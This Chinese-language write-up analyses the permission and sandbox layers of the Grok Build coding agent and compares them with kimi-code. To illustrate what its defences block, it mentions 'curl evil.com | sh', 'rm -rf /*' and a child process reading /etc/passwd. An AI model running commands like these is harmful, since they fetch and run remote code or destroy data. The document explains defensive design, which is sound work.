

# Grok Build · Permission + Sandbox 双层安全拆解

> 📁 **源码位置** · `crates/codegen/xai-grok-workspace/src/permission/`(逻辑层) + `crates/codegen/xai-grok-sandbox/`(物理层)
>
> 📄 **核心文件** · `permission/manager.rs`(6069 行) · `permission/types.rs` · `permission/bash_command_splitting.rs`(shell 解析) · `sandbox/lib.rs`(nono + Landlock/Seatbelt)

## 1. 双层安全架构

```
工具调用请求
    ↓
┌───────────────────────────────────┐
│  Layer 1: Permission(逻辑层)      │
│  - shell 命令解析(try_parse_shell) │
│  - compiled policy 匹配             │
│  - auto classifier(ML 分类)        │
│  - 用户审批(prompt)                 │
│  - session/persisted grant 缓存     │
└───────────────────────────────────┘
    ↓ approved
┌───────────────────────────────────┐
│  Layer 2: Sandbox(物理层)         │
│  - nono(Landlock/Seatbelt)         │
│  - 文件系统限制(workspace 内)      │
│  - 子进程网络封锁(seccomp)          │
│  - 进程级隔离                       │
└───────────────────────────────────┘
    ↓ sandboxed
实际执行
```

**kimi-code 只有 Layer 1**(19 policy 责任链)。**grok-build 两层都有** —— 即使 permission 层被绕过(p0 弹窗点错了),sandbox 层还能兜底。

## 2. Layer 1:Permission 系统

### 2.1 15+ 种 Decision Reason

```rust
mod reasons {
    pub const YOLO: &str = "yolo";
    pub const POLICY_ALLOW: &str = "policy_allow";
    pub const POLICY_DENY: &str = "policy_deny";
    pub const POLICY_ASK: &str = "policy_ask";
    pub const AUTO_FAST_PATH: &str = "auto_fast_path";
    pub const AUTO_CLASSIFIER_ALLOW: &str = "auto_classifier_allow";
    pub const AUTO_CLASSIFIER_BLOCK: &str = "auto_classifier_block";
    pub const SANDBOX_AUTO: &str = "sandbox_auto";
    pub const PERSISTED_GRANT: &str = "persisted_grant";
    pub const SESSION_GRANT: &str = "session_grant";
    pub const STATIC_ALLOWLIST: &str = "static_allowlist";
    pub const SAFE_COMMAND: &str = "safe_command";
    pub const SESSION_DENY: &str = "session_deny";
    pub const PROMPT_DENY: &str = "prompt_deny";
    pub const NEEDS_USER: &str = "needs_user";
    pub const REQUESTER_GONE: &str = "requester_gone";
}
```

**每种 reason 都可追溯**(写入 telemetry + trace)。这让"为什么这个命令被允许了"可以审计。

### 2.2 Shell 命令解析(不是字符串匹配)

```rust
mod bash_command_splitting {
    pub fn try_parse_shell(cmd: &str) -> ...;
    pub fn try_parse_word_only_commands_sequence(cmd: &str) -> ...;
    pub fn is_setup_command(cmd: &str) -> bool;
    pub fn unwrap_wrappers(cmd: &str) -> ...;
}
```

**grok-build 真的解析 bash 语法**:
- 拆分管道(`|`)、重定向(`>`)、逻辑操作(`&&`、`||`)
- 识别命令名和参数
- 判断是否是"安全命令"(例如 `ls`、`cat`、`git status`)
- 判断是否是"setup 命令"(例如 `export PATH=...`)

**这比 kimi-code 强**:kimi-code 的权限规则靠**字符串匹配**(`approvalRule` 带 payload),grok-build 靠**语法解析**,更精确。

例如 `rm -rf /tmp/*.log` 和 `rm -rf /*`:
- 字符串匹配:可能都匹配 `rm -rf`(太粗)
- 语法解析:能区分 `/tmp/*.log`(安全)和 `/*`(危险)

### 2.3 Auto Classifier(ML 辅助决策)

```rust
pub const AUTO_FAST_PATH: &str = "auto_fast_path";
pub const AUTO_CLASSIFIER_ALLOW: &str = "auto_classifier_allow";
pub const AUTO_CLASSIFIER_BLOCK: &str = "auto_classifier_block";
```

**auto mode** 下,不只靠静态规则,还用**分类器**判断命令安全性:
- `auto_fast_path`:明显安全的命令(`ls`、`pwd`)直接放行
- `auto_classifier_allow`:分类器判定安全
- `auto_classifier_block`:分类器判定危险

**这比 kimi-code 的 auto mode 更智能**:kimi-code 的 auto mode 只看工具名是否在白名单,grok-build 看命令的具体内容。

### 2.4 三种 Permission Mode

```rust
pub enum PermissionMode {
    AlwaysApprove,   // YOLO 模式
    Auto,            // 自动(带分类器)
    Ask,             // 总是问
}
```

**和 kimi-code 的对应**:yolo / auto / manual。但 grok-build 的 auto 比 kimi-code 的更强(有分类器 + shell 解析)。

### 2.5 Grant 缓存(避免重复问)

| 缓存类型 | 生命周期 | 例子 |
|---|---|---|
| `persisted_grant` | 跨 session | "总是允许 `cargo test`" |
| `session_grant` | 单 session | "本次 session 允许 `npm install`" |
| `static_allowlist` | 永久(内置) | `ls`、`cat`、`pwd` |

## 3. Layer 2:Sandbox(nono)

### 3.1 nono —— OS 级沙箱

```rust
//! OS-level sandboxing for Grok Build via nono.
//! Applied once at process startup. Covers in-process tokio::fs calls
//! and child processes. Network is left open at the process level
//! (agent needs LLM API); child network is blocked per-subprocess via seccomp.
```

**nono** 是一个 Rust 沙箱库,使用 OS 原生机制:
- **Linux**:Landlock LSM(内核级文件访问控制)
- **macOS**:Seatbelt(sandbox-exec)

### 3.2 沙箱覆盖范围

| 组件 | 文件系统 | 网络 |
|---|---|---|
| grok 主进程 | 限制在 workspace 内 | **开放**(需要连 LLM API) |
| 子进程(bash 命令) | 限制在 workspace 内 | **封锁**(seccomp) |

**关键设计**:主进程的网络**必须开放**(否则连不上 xAI API),但子进程的网络**必须封锁**(防止 `curl evil.com | sh` 这种攻击)。

### 3.3 沙箱 Profile

```rust
pub use profiles::{
    ProfileName, SandboxConfig, SandboxProfile,
    load_sandbox_config, sandbox_profile_conflicts,
};

pub struct SandboxManager {
    // ...
}

impl SandboxManager {
    pub fn new(profile: ProfileName, workspace: &Path) -> Self { ... }
    pub fn apply(&mut self, workspace: &Path) -> Result<()> { ... }
    pub fn install(self) { ... }
}
```

不同 Profile 控制不同权限级别:
- `Workspace`:只允许 workspace 目录
- `Custom`:用户自定义

### 3.4 网络策略(精细控制)

```rust
pub use network_policy::{
    ChildNetworkPolicy, NETWORK_POLICY_SNAPSHOT_VERSION, NetworkPolicySnapshot,
    WebsiteAction, WebsiteOrigin, WebsitePolicy,
};
```

不只是"全开/全关",还可以**按域名控制**(例如允许 `registry.npmjs.org` 但封锁其他)。

### 3.5 违规日志

```rust
pub use logging::SandboxLogger;
```

**沙箱违规被记录**(例如子进程试图访问 `/etc/passwd`)。这让用户可以审查"agent 试图做什么危险操作"。

## 4. 双层协作



**两层独立工作**:
- Permission 层拒绝 → 不执行
- Permission 层通过 → 在 sandbox 内执行
- Sandbox 层违规(执行中试图越权) → 记录但不中断(或 kill 子进程)

## 5. 和 kimi-code 对比

| 维度 | kimi-code | grok-build |
|---|---|---|
| **安全层数** | 1(permission) | **2(permission + sandbox)** |
| **命令分析** | 字符串匹配 | **shell 语法解析** |
| **auto mode** | 静态白名单 | **ML 分类器 + shell 解析** |
| **文件隔离** | 无(靠 permission) | **OS 级(Landlock/Seatbelt)** |
| **网络隔离** | 无 | **子进程 seccomp 封锁** |
| **grant 缓存** | session 级 | **persisted(跨 session)+ session** |
| **违规审计** | 无 | **违规日志** |

## 6. 一句话总结

> Permission + Sandbox 是**双层安全**:Layer 1(permission)用 shell 语法解析 + ML 分类器 + compiled policy 精确判断每个命令的安全性;Layer 2(sandbox)用 nono 在 OS 级别(Landlock/Seatbelt + seccomp)物理隔离文件和网络访问。Permission 拒绝就不执行;permission 通过的在 sandbox 内执行,sandbox 违规被记录。**两层独立工作,互为兜底** —— 即使 permission 层误判,sandbox 层仍能防止灾难性后果。

## 7. 源码索引

| 概念 | 文件 |
|---|---|
| Permission manager | `workspace/src/permission/manager.rs`(6069 行) |
| Permission types | `workspace/src/permission/types.rs` |
| Compiled policy | `workspace/src/permission/policy.rs` |
| Shell 解析器 | `workspace/src/permission/bash_command_splitting.rs` |
| Auto mode | `workspace/src/permission/auto_mode.rs` |
| Shell access | `workspace/src/permission/shell_access.rs` |
| Permission state | `workspace/src/permission/state.rs` |
| Prompter | `workspace/src/permission/prompter.rs` |
| Sandbox(nono) | `sandbox/src/lib.rs` |
| 子进程网络 | `sandbox/src/child_net.rs` |
| Network policy | `sandbox/src/network_policy.rs` |
| Sandbox profiles | `sandbox/src/profiles.rs` |
| Sandbox logging | `sandbox/src/logging.rs` |
